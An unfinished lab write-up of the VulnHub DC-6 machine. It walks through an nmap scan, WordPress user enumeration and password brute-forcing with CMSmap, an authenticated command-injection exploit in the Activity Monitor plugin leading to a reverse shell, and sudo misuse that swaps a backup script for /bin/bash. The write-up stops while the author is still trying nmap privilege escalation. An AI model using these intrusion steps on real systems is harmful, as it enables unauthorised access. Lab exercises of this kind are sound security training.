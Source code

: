 # DC: 6 - https://www.vulnhub.com/entry/dc-6,315/

First of all things I do before everything is nmap scan.

**nmap -T4 -sC -sV -p- -v 192.168.1.102**

```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
```
From the results we can see that this is Wordpress website and we can visit it right away. 
On the opening website redirected us to http://wordy/ and we should change out **/etc/hosts**. 
For Wordpress scan I am using this awesome tool **https://github.com/Dionach/CMSmap**. 
And after the scan is done, we can see that there are several users:
```
[M] admin
[M] graham
[M] jens
[M] mark
[M] sarah
```
 I saved them for a later use and continued to poke the website. I couldn't find anything so I started bruteforce. 
 Author gave us a little "hint" `cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` so we used it. 
 Command I used further was ```python3 /opt/CMSmap/cmsmap.py http://wordy/ --usr /home/andev/usernames.txt --psw /home/andev/passwords.txt```
 and after some time it found the correct password. 
 
 **[H] Valid Credentials! Username: mark Password: helpdesk01**
 
 As we logged in we were greeted with classic Wordpress dashboard but one plugin catched my eye. 
 It was **Activity monitor**. I searched it using searchsploit and this came out 
 **WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection                           | exploits/php/webapps/45274.html**. 
 This was exploit I have never seen in my life but it looked like a DVWA RCE challenge. I setup reverse shell and got in !
  The first thing I checked was home directories for all users and only one thing was helpful so far.
The **things-to-do.txt** file which contained 
```
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

I tested these credentials against SSH service we got and I got in. Next thing I did was to run **sudo -l** and results were useful.

```
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
This means that we can execute **backups.sh** as jens. Since this file belongs to group **devs** and jens and graham are in that group, it means that we can edit this file.
**echo "/bin/bash" > backups.sh**. 
Running ``` sudo -u jens ./backups.sh ``` we became jens.

Once again I ran **sudo -l** and got 
```
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
this means that we can run nmap as root ! 
Unfortunaltely I was stuck with this since the old way in using nmap to priv esc didn't work because this new version. I tried **nmap --interactive** but it didn't work.
I am still stuck on this, once i find a way i will finish this writeup.
